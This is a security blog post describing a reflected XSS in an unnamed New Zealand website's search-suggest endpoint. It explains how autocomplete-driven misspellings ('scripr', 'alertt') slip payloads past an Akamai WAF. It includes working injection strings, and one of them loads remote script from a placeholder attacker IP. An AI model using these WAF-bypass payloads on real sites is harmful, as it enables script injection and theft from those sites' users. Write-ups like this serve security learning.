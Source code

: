+++
title = 'Bypassing a WAF With Autocomplete'
date = 2024-07-15T10:33:59+12:00
draft = true
+++

A few months ago, I was looking at a popular New Zealand website. I came across their search feature.
and found that when I interacted with the search box, it queried this endpoint to fetch the search results
<!--more-->

`<snip>/ViewSuggestSearch-Suggest&SearchTerm=tshirt`

```html
	<div class="suggest-results-list search-spring">
		<button type="button" class="close" title="Close"><span>×</span></button>
		<div class="suggest-suggestion-list col-xs-6">
			<h3>Search Suggestion</h3>
			<ul>
				<li class="classic">
					<button type="button" 
							data-search-result="tshirt" 
							class="search-result">
						<span class="ish-searchTerm">tshirt</span>
					</button>
				</li>
			</ul>
		</div>

(A bunch of products)...

```

The page would make these `HTTP GET` requests, and the endpoint would return a little HTML widget
that would then be embedded in the page. I tried injecting a HTML tag to test if this is vulnerable:

`/ViewSuggestSearch-Suggest&SearchTerm=<h1>HACKS?!</h1>`

```html
	<div class="suggest-results-list search-spring">
		<button type="button" class="close" title="Close"><span>×</span></button>
		<div class="suggest-suggestion-list col-xs-6">
			<h3>Search Suggestion</h3>
			<ul>
				<li class="classic">
					<button type="button" 
							data-search-result="<h1>hack?!</h1>" 
							class="search-result">
					<h1>hack?!</h1>
					</button>
				</li>
			</ul>
		</div>
```

Oops, that's not great—our input gets reflected without being sanitized! That means we can get
JavaScript execution, grab some cookies, and pwn people now… right? Let’s find out:

`/ViewSuggestSearch-Suggest&SearchTerm=<script>alert(document.domain)</script>`

![Website WAF Block screen](images/waf-block-screen.png)

Wow, that's a crazy coincidence! Isn’t it? Let’s look a little closer…

![WAF image link hover](images/waf-image-link.png)

Huh, okay, unfortunately, we have to work a bit harder. This company has paid attention to the
security checklist and installed a Web Application Firewall (WAF), namely Akamai's 'Kona Site
Defender'. You can read more about WAFs
[here](https://owasp.org/www-community/Web_Application_Firewall), but the idea is that if we can’t
stop all the vulnerabilities, we can at least make exploitation harder by blocking suspicious
requests.

Clearly this is a problem, how do we bypass it?

Looking back at our first injection attempt, we can notice something interesting: the word "HACKS"
got changed to "hack". This is likely due to an autocomplete feature, by the nature of it being a
search engine. This may prove useful in bypassing the WAF. Can we somehow craft a payload that slips
past the WAF, is then transformed by this autocomplete feature into something malicious,
and then reflected to the victim's browser? Well, we’ve already seen that it seems to disregard the
non-alphanumeric characters from its autocompleting (i.e., `<>/`). That’s good; we only have to
worry about the words. Let's try:

`/ViewSuggestSearch-Suggest&SearchTerm=<script>`

Blocked, ok thats expected,

What if we try “scripr”, a subtle misspelling of “script”? Will it autocomplete it?

`/ViewSuggestSearch-Suggest&SearchTerm=<scripr>`

```html
...
<li class="classic">
	<button type="button" 
			data-search-result="<script>" 
			class="search-result">
		<span class="ish-searchTerm"><script></span>
	</button>
</li>
...
```

Perfect! That looks good; the WAF doesn't block it. Let's build it up more. It turns out the
autocomplete doesn’t like the second word to be followed by a ">", so let's add a "/" which the
browser will ignore.

`/ViewSuggestSearch-Suggest&SearchTerm=<scripr></scripr/>`

```html
...
<li class="classic">
	<button type="button" 
			data-search-result="<script></script>" 
			class="search-result">
		<span class="ish-searchTerm"><script></script/></span>
	</button>
</li>
...
```

Sweet, it also seems that the WAF doesn’t like "alert(", so we'll use "alertt(" instead.

`/ViewSuggestSearch-Suggest&SearchTerm=<scripr>alertt(document.domain)</scripr/>`

![Alert Box](images/alert-box.png)

Yay! we did it :3, In terms of further exploitation, a payload such as
`<scripr/src="//<remote-ip>/"></scripr/>` seems to work and Note: It's much easier here with an ip
address as domain names will get autocompleted.

Overall this was a fun little bug to discover, and demonstrates how to utilize these types of
transformations to bypass WAF's and filters.
